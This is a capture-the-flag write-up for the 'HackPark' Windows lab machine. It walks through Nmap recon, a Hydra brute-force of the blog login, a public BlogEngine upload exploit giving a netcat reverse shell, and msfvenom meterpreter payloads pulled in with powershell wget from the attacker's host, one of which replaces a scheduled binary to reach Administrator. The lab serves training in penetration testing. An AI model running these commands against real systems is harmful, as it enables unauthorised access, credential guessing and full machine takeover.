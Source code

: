 
#CTF 

## Recon

With Nmap
```

PORT     STATE SERVICE VERSION
80/tcp   open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 6 disallowed entries 
| /Account/*.* /search /search.aspx /error404.aspx 
|_/archive /archive.aspx
|_http-server-header: Microsoft-IIS/8.5
|_http-title: hackpark | hackpark amusements
3389/tcp open  ssl     Microsoft SChannel TLS
| fingerprint-strings: 
|   TLSSessionReq: 
|     hackpark0
|     230602105205Z
|     231202105205Z0
|     hackpark0
|     \xd7k
|     DygZ
|     $0"0
|     ^!5o
|     J.q7
|     !7ex
|     S0nl
|_    ?Emk<p5
| ssl-cert: Subject: commonName=hackpark
| Not valid before: 2023-06-02T10:52:05
|_Not valid after:  2023-12-02T10:52:05
|_ssl-date: 2023-06-03T10:54:41+00:00; 0s from scanner time.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3389-TCP:V=7.60%I=7%D=6/3%Time=647B1BE7%P=x86_64-pc-linux-gnu%r(TLS
SF:SessionReq,33C,"\x16\x03\x03\x037\x02\0\0M\x03\x03d{\x1b\xe2S\x1c\xb8\x
SF:a4x\x1aR\xa1\x0f\+\x0f\0D\x08\xd8\x81c\x14v\xa9QTq\xdb\xc2\xfe\xc2\x7f\
SF:x20\x905\0\0ud\xad\x83s\xdfF\x1b\xdd\xa9\xcb-\x7f\xa1\xb8\xa9\xb1\xf6\x
SF:ef\xe2\xa4\x9cO\0\xb3N\xe9\xd2\0/\0\0\x05\xff\x01\0\x01\0\x0b\0\x02\xde
SF:\0\x02\xdb\0\x02\xd80\x82\x02\xd40\x82\x01\xbc\xa0\x03\x02\x01\x02\x02\
SF:x10\x14\xb8\x11\n\xd554\x99D\x94\x20\x07W/\re0\r\x06\t\*\x86H\x86\xf7\r
SF:\x01\x01\x05\x05\x000\x131\x110\x0f\x06\x03U\x04\x03\x13\x08hackpark0\x
SF:1e\x17\r230602105205Z\x17\r231202105205Z0\x131\x110\x0f\x06\x03U\x04\x0
SF:3\x13\x08hackpark0\x82\x01\"0\r\x06\t\*\x86H\x86\xf7\r\x01\x01\x01\x05\
SF:0\x03\x82\x01\x0f\x000\x82\x01\n\x02\x82\x01\x01\0\xa0\x8d\x1c\xac\x9eW
SF:\xcd\xf7\]\xdb\xb9\xefO\xd9r`w\xe0\xe9F\xc2\x13\xc12\(\xdb!\xcc\xeb\xa4
SF:\x8f\xf3\xca\x06\r4\xd8\+\x96\xa3D\x13\xeb\xd3G\x95\x1dQ\xb4\\\xd7k\xba
SF:\xfc\x99\xe9\xf9\x0c\xfc\xfe\xcd\x9c\x96DygZ\xff=\xdb}\xef\x0cD\xb2\.\x
SF:97'\xf0{\xc7\x92\xc3\x04\x9a\xac\.;\x02D\xc08\xce\xa7Uj\x07\xeb\x1b\xa4
SF:\x1dt\xadd\xe7\xe0\xed\xb7X\xe9\*9\xbb\xfc\x88;\xef\xfc\x94:\xcd\xf9\xc
SF:d\xee\xc4\x06\xf4\x0bD\xdaG\x96Z\x13\xea\x0eD\xd1\xbb\x8b\x0e\x1a=\xf5\
SF:x1d\xaf\xad\x95\xe9\x9e\xfc\x83\x07\xf8\xb0#X\x9a~\x0c\xee\xb8C\xae\x17
SF:O\x7f\xd6\xf6\xa1\xd6\x80\x20kA\x89\x80W\x9c\xc1\xeb\x0c<~\xb9=\xaay4\x
SF:e0\xf5\x82U\xf8\xf9\x1ftz\xd8\x87\xfbq\xbf\xfadQ\x8c\xee\xccQ\x04\x82G\
SF:xc5\x86\xbbdZ\xbf\xe9\x03\x0c\|\x98onv\x91\"-\t\x18\x7fb\x89\x07\x84>\x
SF:f7\xdc\xe6\xf1\xf21y\]\x14F\x13\xf3\]\x872m\x04e\x02\x03\x01\0\x01\xa3\
SF:$0\"0\x13\x06\x03U\x1d%\x04\x0c0\n\x06\x08\+\x06\x01\x05\x05\x07\x03\x0
SF:10\x0b\x06\x03U\x1d\x0f\x04\x04\x03\x02\x0400\r\x06\t\*\x86H\x86\xf7\r\
SF:x01\x01\x05\x05\0\x03\x82\x01\x01\0\x80\x04\x207\x86\*\xc4q8\x9c\xcf\x8
SF:5\^!5o\r\xe1@Y\xd02\x94\xdf\xe8\xa3\x1cA\xff\xbe\xe0u\xfc\x02\x81ozp\xb
SF:e\xe6\xa0\xcb\x8ee\xbcp-\xa8w\x11\x7f\x89\x944\xc8\xd4\xdab\x9b#j\xb6\x
SF:a7\xba\xfc/r=\xe3<\xa5\.\tJ\.q7\xf6\xda5\xdd\xaa\xdb\x86\xe7\xd7\xc3\x8
SF:f/\x98\\\]\x01Y8\x13\xad!7ex\x9d\xdd\xc1S0nl\x92v\xf1\xcd\xdf_\x93\xe0\
SF:xee\xa5\x04>#,\xfa\xb9\xc0\(\xd6\xc5t\x7f\+s\x1e\xb9\x99\x9a\xae\xe7\xf
SF:5\"#\x83\xd1@>\x0b\x1c\x93\xf5B\xb8\x07\xfa0\x81\xf4Ox\x11f\x93\xe0\xa8
SF:\xe7&\xe2\xd7\x08\xd0\xe1\x12\x02\xe8\]\xe8>\x9d\x81\x01>\x8d\xc3s\xa7\
SF:xc4\^\xfey\xb7\xe0\xd5\xf3\xf7IB\xa5\^\xc1\x9d\xff3O\xcbpkU\x92!\x0fC\x
SF:c6\xf2\n\x01\xd0\x03\xc7>\[\xe2\xfcA\x8dH\xf7\x8b\xe9\xd7\xec\x07\?Emk<
SF:p5\xa2\xf4\xba0\x84\xd2\xb0\x9e\xcc\x8b\xcb\x20\x0f\xa6\[\xff\x1e\x14\x
SF:ef\x0e\0\0\0");
MAC Address: 02:A0:8C:A5:70:F1 (Unknown)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


```


Gobuster

There are so many results I am not going to post them.

## Using Hydra to brute-force a login

We need to find a login page to attack and identify what type of request the form is making to the webserver. Typically, web servers make two types of requests, a **GET** request which is used to request data from a webserver and a **POST** request which is used to send data to a server.

You can check what request a form is making by right clicking on the login form, inspecting the element and then reading the value in the method field. You can also identify this if you are intercepting the traffic through BurpSuite (other HTTP methods can be found [here](https://www.w3schools.com/tags/ref_httpmethods.asp)).


We need to fill this
```
"<path to login form>:<body, with magic strings ^USER^ and ^PASS^>:<pattern that appears in an invalid login>"
```
The path to the login form is `/Account/login.aspx`

The “pattern that appears in an invalid login” is any text that appears when a login fails, in our case it’s `“Login failed”`.
For the body, we’ll need to go back to Inspect Element and grab the request payload. Within the payload, look for the user and password used in the failed login, and replace those with `^USER^` and `^PASS^` respectively. `hydra` will replace them with the username and password for each try.



I am using this

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt [ip] http-post-form "/Account/login.aspx:__VIEWSTATE=J7%2FrKT%2FRbzXElHvOFArr4HX0BUp05PUs%2Bjl4fN5QtFnsigr6tjwFZkWaUW9RaCNkl5wcaaA9I71WXBKsdywllsO45a8kdE%2BO2GeciLswYLZgMhEIYMOLKvVE1g9%2FuxmOjygsPrfW43YX1axgD3V%2FmbHd2lx7jcwje7Qgkp065G2LekTQ&__EVENTVALIDATION=nIJxL4rdGJE3KYMzFDmVH35CAPYLfmVh68KpFWCfpmOAp8i4dLgnYkYLVP3UEDV8IiIqX6kXoIwujnQvd7xTK1Tbiqg5RF0fYL3q6nazJk37P%2BrLs8lq043TvaeMwGi4uqTkx2onf8prQt9NNxgtS4oXE0haNUx6xQId8O8kqlZfYRAG&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
```

So I get this 
`login: admin   password: 1qaz2wsx`

## Compromise the machine

In this task, you will identify and execute a public exploit (from [exploit-db.com](http://www.exploit-db.com)) to get initial access on this Windows machine!

Exploit-Database is a CVE (common vulnerability and exposures) archive of public exploits and corresponding vulnerable software, developed for the use of penetration testers and vulnerability researches. It is owned by Offensive Security (who are responsible for OSCP and Kali)

I search on Exploit db and find  CVE-2019-6714
I downloaded the script and followed the steps written in the script.
Opened the file and wrote local ip and port inside.
Opened a Netcat connection on that port.
Went on the side, opened a public post.
Renamed the file as PostView.ascx
Clicked on the upload button on the public post and uploaded the file.
Navigated to that link `http://[ip]/?theme=../../App_Data/files`
And we have a connection!
`
## Windows Privilege Escalation

In this task we will learn about the basics of Windows Privilege Escalation.

First we will pivot from netcat to a meterpreter session and use this to enumerate the machine to identify potential vulnerabilities. We will then use this gathered information to exploit the system and become the Administrator.

So I make a shell.exe with
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[local ip] LPORT=[local new port] -f exe -o [shell name].exe
```

Next I open Metasploit and type
`use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST [local ip] set LPORT [local new port] run`

To get the shell.exe on the machine I type
```
powershell -c wget "http://[local ip]:80/shell.exe" -outfile "shell.exe"  
```

I run `shell.exe` on that machine and get the connection on the meterpreter!

Next more enumeration.
I download winPEAS from [Github](https://github.com/carlospolop/PEASS-ng/releases/tag/20230618-1fa055b6)
and the upload it to the machine
the type `shell` and run the exe.

What is the name of the abnormal _service_ running?
WindowsScheduler

What is the name of the binary you're supposed to exploit?
message.exe
To find it 
```
cd C:\Program Files (x86)\SystemScheduler\Events  
type 20198415519.INI_LOG.txt
```

To exploit it I have to make a new shell with
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[local ip] LPORT=8888 -e x86/shikata_ga_nai -f exe -o Message.exe
```

Then I open a new Metasploit instance . I make a new listener to the new port 8888.
On the old instance I upload the Message.exe file with
```
cd "C:\Program Files (x86)\SystemScheduler"  
powershell -c wget "http://[local ip]:80/Message.exe" -outfile "Message.exe"  
```

Then I wait for `WindowsScheduler` to run and execute my Message.exe. And I get my root shell


I find user flag `759bd8af507517bcfaede78a21a73e39`
on `C:\Users\jeff\Desktop`

And under `C:\Users\Administrator\Desktop`
I find root flag `7e13d97f05f7ceb9881a3eb3d78d3e72`

Finally to get the Original Install time
I run `systeminfo | findstr /i date`
`8/3/2019, 10:43:23 AM`